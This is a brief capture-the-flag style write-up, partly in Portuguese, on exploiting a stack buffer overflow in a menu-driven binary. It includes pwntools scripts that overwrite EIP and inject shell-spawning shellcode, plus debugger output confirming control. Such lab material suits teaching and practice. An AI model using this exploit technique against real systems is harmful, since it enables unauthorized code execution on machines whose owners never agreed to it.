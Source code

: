# Shellcode



Na opçao 2 do menu era disponibilizado o endereço : 0xffa62bdc (ou 0xffd0eccc) que nao me lembro bem



cyclic 200

ver onde partia

-> offset dava 112



```python
from pwn import *

# Offset to overwrite EIP
offset = 112  # Replace with the calculated offset

# Target address (e.g., writable memory or shellcode location)
target_address = 0xffa62bdc  # Replace with the desired address

# Construct the payload
payload = b"A" * offset        # Padding to reach EIP
payload += p32(target_address) # Overwrite EIP with target address

# Save the payload
with open("payload.txt", "wb") as f:
    f.write("1\n".encode())
    f.write(payload)

print("Payload written to payload.txt")
```

```
run < payload.txt
```

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

we got 0xffa62bdc



```
gef➤  info registers 

eax            0x13                0x13
ecx            0x13                0x13
edx            0x0                 0x0
ebx            0xf7f9b000          0xf7f9b000
esp            0xffffce20          0xffffce20
ebp            0x41414141          0x41414141
esi            0xffffcf24          0xffffcf24
edi            0xf7ffcb80          0xf7ffcb80
eip            0xffa62bdc          0xffa62bdc
eflags         0x10282             [ SF IF RF ]
cs             0x23                0x23
ss             0x2b                0x2b
ds             0x2b                0x2b
es             0x2b                0x2b
fs             0x0                 0x0
gs             0x63                0x63

```

```
info proc mappings
```



<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



```python
from pwn import *

# Offset to overwrite EIP
offset = 112  # Replace with the correct offset for this binary

# Address in the stack to jump to (update based on your `gef➤ x/40x $esp` output)
shellcode_address = 0xffffce20  # Adjust based on your findings

# Generate shellcode (execve "/bin/bash" example)
shellcode = asm(shellcraft.sh())  # Generates shellcode for spawning a shell

# Construct the payload
payload = b"A" * offset               # Padding to reach EIP
payload += p32(shellcode_address)     # Overwrite EIP with shellcode address
payload += shellcode                  # Append the shellcode

# Save the payload to a file
with open("payload.txt", "wb") as f:
    f.write("1\n".encode())           # Input selection for the binary's menu
    f.write(payload)

print(f"Payload written to payload.txt (size: {len(payload)})")
```

```
./shellcode < payload.txt | socat -,raw,echo=0
```

